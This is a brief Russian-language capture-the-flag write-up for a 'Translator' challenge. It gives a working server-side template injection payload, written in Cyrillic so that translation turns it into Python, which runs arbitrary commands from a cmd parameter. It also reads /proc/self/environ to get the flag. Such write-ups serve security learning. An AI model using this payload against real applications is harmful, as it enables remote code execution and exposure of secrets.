

# Translator writeup

Решающий после ознакомления с задачей должен понять, что резльтат перевода подставляется не безопасно.


Однако во время эксплуатации возникает проблема, английские символы запрещены, нужно при помощи русских составить такую нагрузку что при переводе она перобразовалось в корректные python выражения.
Можно было составить следующую нагрузку:
```
{{циклер.__инит__.__глобалс__["ос"].попен(реквест.аргс["цмд"]).читать()}}
```

Даннная нагрузка позволяет испольнять произвольные команды из GET параметра cmd.

Давайте прочитаем флаг, указав в cmd=cat /proc/self/environ



